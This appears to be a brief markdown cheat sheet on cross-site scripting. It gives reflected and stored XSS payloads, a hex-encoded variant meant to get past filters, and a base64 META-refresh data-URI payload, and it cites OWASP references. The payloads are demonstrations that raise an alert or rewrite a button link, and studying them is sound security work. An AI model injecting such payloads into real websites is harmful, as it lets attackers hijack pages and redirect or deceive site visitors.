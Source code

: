 # XSS

[Reference][1]

[XSS Filter Evasion Cheat Sheet][3]

## Non-Persistent

```javascript
?name=juette<script>alert('XSS!')</script>
```

```javascript
?name=juette<script>window.onload = function() {var link=document.getElementsByClassName("btn");link[0].href="https://duckduckgo.com/";}</script>
```

Encode the string from ASCI to Hex (http://convertstring.com/de/EncodeDecode/HexEncode):
```
?name=Fabian%3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%76%61%72%20%6c%69%6e%6b%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%62%74%6e%22%29%3b%6c%69%6e%6b%5b%30%5d%2e%68%72%65%66%3d%22%68%74%74%70%73%3a%2f%2f%64%75%63%6b%64%75%63%6b%67%6f%2e%63%6f%6d%2f%22%3b%7d%3c%2f%73%63%72%69%70%74%3e
```

## Persistent XSS Attack

```javascript

<script>alert('XSS!')</script>
```

[Reference][2] -
XSS using code encoding. Encode our script in base64 and place it in META tag.

```html
<META HTTP-EQUIV="refresh"
CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIScpPC9zY3JpcHQ+">
```

[1]: http://www.thegeekstuff.com/2012/02/xss-attack-examples/
[2]: https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
[3]: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
